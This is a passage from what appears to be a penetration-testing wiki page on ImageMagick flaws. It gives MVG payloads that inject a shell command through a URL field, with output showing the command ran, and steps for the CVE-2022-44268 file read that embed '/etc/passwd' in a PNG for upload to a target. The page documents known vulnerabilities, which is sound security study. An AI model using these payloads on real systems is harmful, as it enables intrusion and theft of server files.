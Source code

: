 {% code title="exploit.png" %}
```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://localhost/`id > /tmp/pwned`)'
pop graphic-context
```
{% endcode %}

{% code title="exploit.png (alternative)" %}
```bash
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://localhost/`id > /tmp/pwned`'
pop graphic-context
```
{% endcode %}

Simply uploading and converting this file alone will now trigger the vulnerability:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ convert exploit.png output.png
</strong>$ cat /tmp/pwned
uid=1001(user) gid=1001(user) groups=1001(user)
</code></pre>

### `profile` File Read - CVE-2022-44268 (< 7.1.0-50 = Oct 2022)

[This writeup](https://www.metabaseq.com/imagemagick-zero-days/) explains a vulnerability in ImageMagick that allowed an input file to contain malicious **metadata** including a **filename**, and the output file would **contain the content** of that file on the remote server. Exploiting it is very simple:

1.  **Create the file**: Take any PNG file, and add a `profile` `tEXt` chunk to it with a filename that is the file you wish to read:\


    <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ pngcrush -text a 'profile' '/etc/passwd' example.png
    </strong>CPU time decode 0.000000, encode 0.000000, other 0.000000, total 0.000002 sec
    <strong>$ xxd pngout.png
    </strong>00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
    00000010: 0000 0001 0000 0001 0100 0000 0037 6ef9  .............7n.
    00000020: 2400 0000 0a49 4441 5478 9c63 6800 0000  $....IDATx.ch...
    <strong>00000030: 8200 8177 cd72 b600 0000 1474 4558 7470  ...w.r.....tEXtp
    </strong><strong>00000040: 726f 6669 6c65 002f 6574 632f 7061 7373  rofile./etc/pass
    </strong><strong>00000050: 7764 00b7 f46d 9c00 0000 0049 454e 44ae  wd...m.....IEND.
    </strong>00000060: 4260 82                                  B`.
    </code></pre>
2.  **Upload the file** to your target so ImageMagick will parse it\


    {% hint style="warning" %}
    During the conversion, the following warning should appear confirming the vulnerability:
